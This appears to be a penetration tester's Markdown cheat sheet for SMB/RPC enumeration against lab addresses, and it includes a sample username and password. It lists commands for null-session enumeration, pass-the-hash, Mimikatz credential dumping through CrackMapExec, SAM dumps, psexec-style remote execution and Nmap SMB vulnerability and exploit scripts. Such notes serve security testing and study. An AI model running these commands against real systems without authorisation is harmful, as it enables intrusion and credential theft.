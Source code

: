 
# RPCClient
- Blank Auth: `rpcclient 10.10.10.192`
- Null User: `rpcclient 10.10.10.192 -U ''`

## Helpful commands
Requires null/successful authentication:
- `srvinfo` - server query info
- `enumdomusers` - domain users
- `getdompwinfo` - domain password info
- Can also be run from command line: `rpcclient -U "" -N 172.21.0.0 enumdomusers`

# SMBClient
- Null User (if prompted for password,hit enter for blank pw): 
    - `smbclient -L 10.10.10.192`
    - `smbclient -L 10.10.10.192 -U ''`
- If successful authentication, and can identify drive(s) to connect to:
    - `smbclient //10.10.10.192/profiles$`
    - `smbclient \\\\<IP>\\<Share> -N`


# CrackMapExec
- Blank Auth: 
    - `cme smb 10.10.10.192 --shares`
    - `cme smb 10.10.10.192 --shares -u ''`
    - `cme smb 10.10.10.192 --shares -u '' -p ''`
- Auth With Bogus User: `cme smb 10.10.10.192 --shares -u 'Zentest'`
- Auth with Bogus User Null Password: `cme smb 10.10.10.192 --shares -u 'Zentest' -p ''`
- list files and saves them locally: `crackmapexec smb IP -u '' -p '' -M spider_plus`
- List users: `crackmapexec smb IP -u '' -p '' --users`
- Password Policy: `crackmapexec smb IP -u '' -p '' --pass-pol`
- List Shares: `crackmapexec smb -L`
- Pass the Hash: `crackmapexec 172.21.0.0 -u Administrator -H [hash] --local-auth`
- Local Admin Auth w/ PTH: `crackmapexec 172.21.0.0 -u Administrator -H [hash] --share`
- Mimikatz results (requires local admin): `crackmapexec smb 172.21.0.0/24 -u user -p 'Password' --local-auth -M mimikatz`

# Mount
Mount drive if user comes back with lots of data
- `sudo mount -t cifs //10.10.10.192/profiles$ '/mnt/'`


# Enum4linux(-ng):
Do you have credentials?
- `enum4linux -av -u username -p password 10.1.1.24`
- `Enum4linux -av 172.21.0.0`
- `enum4linux-ng -A 10.2.2.23 -u james -p FmyN3rZ37LNss2X`

# SMBmap
Do you have credenntials?
- `smbmap -H 172.21.0.0 -d [domain] -u [user] -p [password]`
- Null Authentication: `smbmap -H 172.21.0.0 -d [domain] -u "" -p ""`

# RDESKTOP!
- `rdesktop -g70% IP_Addr -u user1 -p pass1 -r disk:share=/root/tmp`

# Impacket
Do you have credentials?
- `/usr/share/doc/python3-impacket/examples/smbclient.py username@172.21.0.0`
- Impacket tools for access - i.e. psexec, smbexec
- `smbexec.py SHARE_NAME /location/to/share`
Impacket samdump
- `samdump.py SMB 172.21.0.0`

# Nmap
- `nmap --script smb-* -p 139,445, 172.21.0.0`
- `nmap --script smb-enum-* -p 139,445, 172.21.0.0`
- Same as above, just way more verbose: `nmap -Pn -n -p 139,445 --script=smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-services.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-protocols.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-cve-2017-7494.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse,smb-vuln-regsvc-dos.nse,smb-vuln-webexec.nse,smb-webexec-exploit.nse <IP>`
- SMB v2 Info Collection: `nmap -p 139,445 --script=smb2-capabilities.nse,smb2-security-mode.nse,smb2-time.nse,smb2-vuln-uptime.nse <IP>`